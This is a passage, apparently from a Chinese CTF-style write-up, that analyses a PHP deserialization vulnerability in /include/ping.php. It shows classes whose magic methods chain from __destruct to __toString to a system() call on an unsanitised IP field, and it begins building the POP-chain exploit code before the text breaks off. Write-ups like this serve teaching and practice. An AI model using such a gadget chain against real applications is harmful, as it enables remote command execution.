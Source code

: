 我们分析存在php反序列化漏洞，`/include/ping.php`
```php
class getip{
    public $ip;
    
    function __construct(){
        $this->ip = "127.0.0.1";
    }
    
    function __destruct(){
        echo 'The ip is'.$this->ip;
    }
}
        
class getresult{
    public $obj;
    public $ip;
    
    function __construct(){
        $this->ip = '127.0.0.1';
        $this->obj = null;
    }
    function __toString(){
        $this->obj->execute();
        return $this->ip;
    }
}

class ping{
    private $ip;
    
    function execute(){
        $str = 'ping '.$this->ip;
        system($str);
    }
}
    
```
分析后构建序列化的pop链
以下为构建的代码
```php
<?php  
	class getip{
		public $ip;
		
		function __construct(){
			$this->ip = "127.0.0.1";
		}
		
		function __destruct(){
			echo 'The ip is'.$this->ip;
		}
	}
		 
	class getresult{
		public $obj;
		public $ip;
		
		function __construct(){
			$this->ip = '127.0.0.1';
			$this->obj = null;
		}
		function __toString(){
			$this->obj->execute();
```